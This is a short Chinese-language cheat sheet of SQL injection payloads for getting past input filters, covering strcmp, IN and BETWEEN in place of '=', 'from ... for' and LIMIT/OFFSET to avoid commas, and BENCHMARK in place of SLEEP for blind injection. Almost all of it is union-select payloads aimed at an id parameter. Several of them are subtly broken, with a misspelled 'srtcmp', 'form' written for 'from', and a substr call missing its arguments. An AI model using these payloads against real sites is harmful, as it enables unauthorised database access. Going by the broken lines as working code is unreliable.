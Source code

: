 **strcmp函数**

比较两个值大小，相等返回0 后者比前者大返回-1 小返回1

> 
?id=-1' union select srtcmp(ascii(substr(database(),0,1)),100) --+


---


**in 替换 =**

相等返回1 不相等返回 0

> 
?id=-1' union select substr(database()) in ("u") --+


---


**between and 替换 =**

> 
?id=-1' union select substr(database()) between "a" and "u" --+


---


**form for**

盲注过滤逗号

> 
?id=-1' union select(database() form 0 for 1) --+


---


**limit A offset B**

当过滤逗号时,limit 后面只能有一个参数，表示要取的数量，offset 表示跳过数量

> 
select * from users limit 3 offset 2


表示跳过前2个，取3个，即3，4，5

---


**benchmark替换sleep**

benchmark来测速，即执行select database() 5000次所需时间

> 
benchmark(5000,(select database()))


---


